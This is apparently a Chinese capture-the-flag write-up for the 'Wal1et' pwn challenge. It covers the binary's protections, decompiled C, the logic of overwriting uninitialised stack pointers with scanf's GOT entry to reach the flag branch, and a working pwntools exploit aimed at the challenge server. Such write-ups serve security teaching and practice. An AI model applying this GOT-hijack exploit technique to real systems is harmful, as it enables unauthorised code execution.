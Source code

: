 ```yaml
---
title: ningbo2024 初赛 - Wal1et
date: 2024/5/8 23:58:00
tags:
    - got-hijack
---
```


## 文件属性

|属性  |值    |
|------|------|
|Arch  |x32   |
|RELRO|Partial|
|Canary|on    |
|NX    |on    |
|PIE   |off   |
|strip |no    |

## 解题思路

```c
void check(void)

{
  int local_14;
  int local_10;
  
  printf("Now try the First password : ");
  __isoc99_scanf("%d",local_14);
  fflush(_stdin);
  printf("Now try the Second password : ");
  __isoc99_scanf("%d",local_10);
  puts("Let me think......");
  if ((local_14 == 0x528e6) && (local_10 == 0xcc07c9)) {
    puts("OMG!YOU SUCCESS!"); // check + 0x98
    system("/bin/cat flag");
    return;
  }
  puts("You Failed! Try again.");
                    // WARNING: Subroutine does not return
  exit(0);
}
```

审计`check`函数的代码，32位，`local_14`和`local_10`既是int也是指针。在函数`begin`中，
可以输入大量数据覆盖栈帧，而这两个指针的值并未经过初始化，从而可以指定这两个变量的值。
题目要求这两个变量的值为`0x528e6`和`0xcc07c9`，但它们不可能是有效的指针，在运行scanf的时候会引发SIGSEGV。
因此将其覆盖为`scanf@got`，并利用`check`中的`scanf`将`check+0x98`写入指针中，
这样在读入第二个数的时候就会跳到`scanf@plt`，再运行`scanf@got`的地址，
即从`puts("OMG!YOU SUCCESS!")`开始运行，打印出flag

## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']
GOLD_TEXT = lambda x: f'\x1b[33m{x}\x1b[0m'
EXE = './Wal1et'

def payload(lo:int):
    global sh
    if lo:
        sh = process(EXE)
        if lo & 2:
            gdb.attach(sh)
    else:
        sh = remote('101.132.170.0', 32687)
    elf = ELF(EXE)
    scanfGot = elf.got['__isoc99_scanf']

    sh.sendlineafter(b'JUST', b'1')
    # reach the length of %108s, so use send to prevent \n drop down
    sh.sendafter(b'name', b'Rocket'.ljust(0x64, b'\0') + p32(scanfGot) + p32(scanfGot))
    sh.sendlineafter(b'First', str(0x804871b).encode()) # check + 0x98
    sh.sendlineafter(b'Second', str(0x804871b).encode())

    sh.recvuntil(b'flag{')
    flag = sh.recvuntil(b'}')
    success(f'{GOLD_TEXT("Flag is:")} {"flag{"}{flag.decode()}')
    sh.close()
```
